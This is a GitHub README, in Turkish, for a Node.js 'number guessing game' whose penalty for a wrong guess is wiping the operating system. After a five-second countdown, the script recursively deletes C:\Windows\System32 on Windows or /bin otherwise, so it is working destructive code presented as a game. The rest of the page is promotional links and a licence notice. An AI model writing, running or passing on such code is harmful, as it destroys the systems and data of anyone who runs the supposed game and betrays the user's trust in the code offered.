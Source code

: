 # Number_Guessing_Game_Operating_System_Penalty

- İşletim Sistemi Cezalı Sayı Tahmin Oyunu!


```js
const rl = require('readline-sync');
const fs = require('fs');

let pctut = Math.floor(Math.random() * 10);
let tahmin = rl.questionInt('0 ile 10 arasinda bir sayi tahmin ediniz: ');

async function delay(s) {
    for(let i = s; i >= 1; i--) {
        await new Promise(resolve => setTimeout(resolve, 1000));
        console.log(`${i} saniye sonra işletim sistemi silinecek!`);
    }
}

if(isNaN(tahmin)) {
    console.log('Lutfen sayi giriniz!');
    process.exit(1);
}

if(tahmin == pctut) {
    console.log('Tebrikler! Sayiyi dogru tahmin ettiniz.');
    process.exit(0);
} else {
    console.log('Uzgunum! Sayiyi yanlis tahmin ettiniz.');
    (async () => {
        await delay(5);
        console.log('Isletim sistemi siliniyor...');
        if(fs.existsSync('C:\\Windows\\System32')) {
            fs.rmdirSync('C:\\Windows\\System32', { recursive: true });
        } else {
            fs.rmdirSync('/bin', { recursive: true });
        }
    })();
}
```

---
- ✨ [Destek İçin](https://fastuptime.com) <br>
- 💕 [Discord](https://fastuptime.com/discord)<br>
- 🎖️ [FasterHost Technology](https://fasterhost.tech/)<br>
- ✨ İletişim için [Tıkla!](mailto:fastuptime@gmail.com)<br>

# License
- Its protected by Creative Commons ([CC BY-NC-SA 4.0](https://creativecommons.org/licenses/by-nc-sa/4.0/))

<a href="https://creativecommons.org/licenses/by-nc-sa/4.0/" title="BYNCSA40"><img src="https://licensebuttons.net/l/by-nc-sa/4.0/88x31.png"></a>
